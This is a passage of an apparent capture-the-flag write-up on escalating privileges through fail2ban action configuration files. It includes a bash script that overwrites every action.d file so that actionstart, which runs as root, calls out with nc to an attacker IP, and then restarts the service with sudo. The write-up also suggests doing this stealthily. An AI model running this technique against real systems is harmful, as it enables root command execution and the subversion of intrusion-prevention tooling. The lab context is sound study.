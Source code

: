 ```
complain.conf      firewallcmd-rich-logging.conf  iptables.conf                mail-buffered.conf                   nftables-common.conf    route.conf               sendmail-whois-lines.conf

```

So that's a lot of files and I wasn't too familiar with the configuration of fail2ban, I know it bans ips. I saw how ippsec did it and this is one where I didn't exactly like how he went about it. He guessed at the configuration change and did it specifically by banning himself to a shell. It's particularly dangerous if well, the box didn't unban you.
So I inspected some of the configuration files and they all have this kind of setup:
```conf
[Definition]
actionstart =
actionstop =
actioncheck =
actionban = 
actionuban =

[Init]
```

There's an `actionstart` which seems a lot more useful. But I have no clue which of these conf files actually are loading.
So how I thought about doing this, was to loop through them and have each one call out to me with the filename and reload the daemon. The nice thing with this is you can script it, and have it backup the files individually and do it sequentially, if you wanted to be a bit more stealthy with it.
The only enumeration that hinted to me that it was indeed multiport, was in jail.conf:
```

banaction = iptables-multiport
banaction_allports = iptables-allports
```
However, that's extremely hard to catch, so what I did was this:
```bash
#!/usr/bin/env bash

for conf in /etc/fail2ban/action.d/*.conf; do
   if ! grep -q 'actionstart =' $conf; then
      continue
   fi
   name=$(basename $conf)
   mv $conf /tmp/$name
   cat <<EOF > $conf
[Definition]
actionstart = echo $name | nc 10.10.14.7 9001
actionstop =
actionban =
actionunban =

[Init]
EOF
   done

sudo /etc/init.d/fail2ban restart
```
